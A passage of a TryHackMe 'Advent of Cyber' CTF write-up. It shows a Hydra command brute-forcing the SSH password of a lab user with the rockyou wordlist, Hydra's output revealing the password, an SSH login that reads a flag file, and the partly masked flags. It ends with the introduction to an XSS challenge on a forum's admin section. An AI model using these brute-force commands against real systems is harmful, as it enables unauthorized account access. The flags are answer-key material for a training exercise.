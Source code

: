 `THM{V0N318*****2673a7dd116de68e85c48ec0b1f2612e12**123:))}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190 -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:25:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.132.190:22/
[22][ssh] host: 10.10.132.190   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 09:25:53
```

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ ssh molly@10.10.132.190

molly@ip-10-10-132-190:~$ ls
flag2.txt
molly@ip-10-10-132-190:~$ cat flag2.txt
THM{V0N318*****c8eeb0468febbadea859baeb33b2541b}
```

`THM{V0N318*****c8eeb0468febbadea859baeb33b2541b12**123:))}`

## [Day 18] ELF JS

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

_P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth._
